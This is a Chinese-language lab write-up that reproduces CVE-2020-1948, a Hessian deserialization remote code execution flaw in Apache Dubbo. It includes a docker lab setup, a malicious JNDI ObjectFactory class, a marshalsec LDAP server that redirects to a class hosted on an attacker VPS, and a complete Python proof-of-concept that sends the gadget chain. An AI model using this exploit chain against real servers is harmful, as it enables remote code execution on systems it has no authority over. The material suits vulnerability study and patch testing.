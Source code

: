 # Apache Dubbo Hessian 反序列化漏洞 CVE-2020-1948

## 漏洞描述

Apache Dubbo 是一款高性能 Java RPC 框架。漏洞存在于 Apache Dubbo 默认使用的反序列化工具 hessian 中，攻击者可能会通过发送恶意 RPC 请求来触发漏洞，这类 RPC 请求中通常会带有无法识别的服务名或方法名，以及一些恶意的参数负载。当恶意参数被反序列化时，达到代码执行的目的。

要想利用该漏洞需要满足以下条件：

- Dubbo 服务端应用引入了 `com.rometools:rome:1.7.0` 或 `com.caucho:quercus:4.0.45` 等不安全的 rome、quercus 等第三方类库版本。
- JDK 版本低于 `7u201` 或者低于 `8u191`（存在 RMI 或者 LDAP 这种 JNDI 注入方式），JDK 相关 RCE 漏洞利用方式及受影响的版本：
    - 通过 RMI 协议加载远程 RMI Registry 上的恶意对象，受影响的 JDK 版本：低于 `6u45` 或者低于 `7u21`。
    - RMI + JNDI 注入，受影响的 JDK 版本：低于 `6u132`、低于 `7u122` 或低于 `8u113`。
    - LDAP + JNDI 注入，受影响的 JDK 版本：低于 `6u211`、低于 `7u201`、低于 8u191 或 `11u1`。

参考链接：

- https://www.mail-archive.com/dev@dubbo.apache.org/msg06544.html
- https://hub.docker.com/r/dsolab/dubbo

## 漏洞影响

```
Apache Dubbo 2.7.0 to 2.7.6
Apache Dubbo 2.6.0 to 2.6.7
Apache Dubbo all 2.5.x versions（已不再更新维护）
```

准确地说，也影响了 2.7.7 和 2.6.8 版本，因为修复方案被绕过。

## 环境搭建

docker-compose.yaml

```
version: "3"

services:
  api:
    build: .
    image: dsolab/dubbo:cve-2020-1948
    container_name: cve-2020-1948
    ports:
      - "12345:12345"
```

执行如下命令启动一个 Apache Dubbo 2.7.7 版本的服务器：

```
docker-compose up -d
```

服务启动后，监听在 `your-ip:12345` 端口。

## 漏洞复现

准备 exp.java，编译：

```java
import javax.naming.spi.ObjectFactory;
import javax.naming.Name;
import javax.naming.Context;
import java.util.Hashtable;
import java.io.IOException;

public class exp implements ObjectFactory {
    @Override
    public Object getObjectInstance(Object obj, Name name, Context nameCtx, Hashtable<?, ?> environment) {
        try {
            Runtime.getRuntime().exec("touch /tmp/success");
        } catch (IOException e) {
            e.printStackTrace();
        }
        return null;
    }
}
```

```
javac exp.java
```

vps 开启 web 服务，托管编译后的 exp.class：

```
http://your-vps-ip/exp.class
```

启动 LDAP 服务，监听端口为 9999：

```
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://your-vps-ip/#exp 9999
```

本地构建测试脚本 poc.py：

```shell
# -*- coding: utf-8 -*-

import sys

from dubbo.codec.hessian2 import Decoder,new_object
from dubbo.client import DubboClient

if len(sys.argv) < 4:
  print('Usage: python {} DUBBO_HOST DUBBO_PORT LDAP_URL'.format(sys.argv[0]))
  print('\nExample:\n\n- python {} 1.1.1.1 12345 ldap://1.1.1.6:80/exp'.format(sys.argv[0]))
  sys.exit()

client = DubboClient(sys.argv[1], int(sys.argv[2]))

JdbcRowSetImpl=new_object(
  'com.sun.rowset.JdbcRowSetImpl',
  dataSource=sys.argv[3],
  strMatchColumns=["foo"]
  )
JdbcRowSetImplClass=new_object(
  'java.lang.Class',
  name="com.sun.rowset.JdbcRowSetImpl",
  )
toStringBean=new_object(
  'com.rometools.rome.feed.impl.ToStringBean',
  beanClass=JdbcRowSetImplClass,
  obj=JdbcRowSetImpl
  )

resp = client.send_request_and_return_response(
  service_name='org.apache.dubbo.spring.boot.sample.consumer.DemoService',
  # 此处可以是 $invoke、$invokeSync、$echo 等，通杀 2.7.7 及 CVE 公布的所有版本
  method_name='$invoke',
  args=[toStringBean])

output = str(resp)
if 'Fail to decode request due to: RpcInvocation' in output:
  print('[!] Target maybe not support deserialization.')
elif 'EXCEPTION: Could not complete class com.sun.rowset.JdbcRowSetImpl.toString()' in output:
   print('[+] Succeed.')
else:
  print('[!] Output:')
  print(output)
  print('[!] Target maybe not use dubbo-remoting library.')
```

运行测试脚本：

```
python poc.py your-ip 12345 ldap://your-vps-ip:9999/exp
```

![](images/Apache%20Dubbo%20Hessian%20反序列化漏洞%20CVE-2020-1948/image-20250612142204566.png)

可以看到，LDAP 代理成功接收请求，并将请求转发到 vps：

```
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://10.8.0.1/\#exp 9999
Listening on 0.0.0.0:9999
Send LDAP reference result for exp redirecting to http://10.8.0.1/exp.class
```

![](images/Apache%20Dubbo%20Hessian%20反序列化漏洞%20CVE-2020-1948/image-20250612142258289.png)

![](images/Apache%20Dubbo%20Hessian%20反序列化漏洞%20CVE-2020-1948/image-20250612142323434.png)

命令被成功执行：

![](images/Apache%20Dubbo%20Hessian%20反序列化漏洞%20CVE-2020-1948/image-20250612142426975.png)

## 漏洞修复

升级至最新版本。
